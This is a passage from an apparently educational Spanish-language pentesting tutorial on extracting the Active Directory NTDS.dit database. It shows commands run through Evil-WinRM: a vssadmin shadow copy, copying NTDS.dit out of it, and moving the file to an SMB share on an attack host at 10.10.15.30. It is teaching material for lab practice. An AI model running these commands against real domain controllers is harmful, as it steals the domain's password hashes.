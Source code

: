 ```r
```

Esta cuenta tiene derechos tanto de Administradores como de Administradores de Dominio, lo que significa que podemos hacer prácticamente cualquier cosa que queramos, incluida la creación de una copia del archivo NTDS.dit.

### Creating Shadow Copy of C:

Podemos usar `vssadmin` para crear una [Volume Shadow Copy](https://docs.microsoft.com/en-us/windows-server/storage/file-server/volume-shadow-copy-service) (`VSS`) del disco C: o de cualquier volumen que el administrador haya elegido al instalar AD inicialmente. Es muy probable que NTDS se almacene en C: ya que esa es la ubicación predeterminada seleccionada durante la instalación, pero es posible cambiar la ubicación. Usamos VSS para esto porque está diseñado para hacer copias de volúmenes que pueden ser leídos y escritos activamente sin necesidad de detener una aplicación o sistema en particular. VSS es utilizado por muchos programas diferentes de copia de seguridad y recuperación ante desastres para realizar operaciones.

```r
*Evil-WinRM* PS C:\> vssadmin CREATE SHADOW /For=C:

vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Successfully created shadow copy for 'C:\'
    Shadow Copy ID: {186d5979-2f2b-4afe-8101-9f1111e4cb1a}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
```

### Copying NTDS.dit from the VSS

Podemos copiar el archivo NTDS.dit de la copia sombra del volumen C: a otra ubicación en el disco para prepararnos para mover NTDS.dit a nuestro host de ataque.

```r
*Evil-WinRM* PS C:\NTDS> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit



        1 file(s) copied.
```

Antes de copiar NTDS.dit a nuestro host de ataque, podemos usar la técnica que aprendimos anteriormente para crear un recurso compartido SMB en nuestro host de ataque. Si es necesario, puedes volver a la sección `Attacking SAM` para revisar ese método.

### Transferring NTDS.dit to Attack Host

Ahora `cmd.exe /c move` se puede usar para mover el archivo del DC objetivo al recurso compartido en nuestro host de ataque.

```r
*Evil-WinRM* PS C:\NTDS> cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData 

        1 file(s) moved.		
```
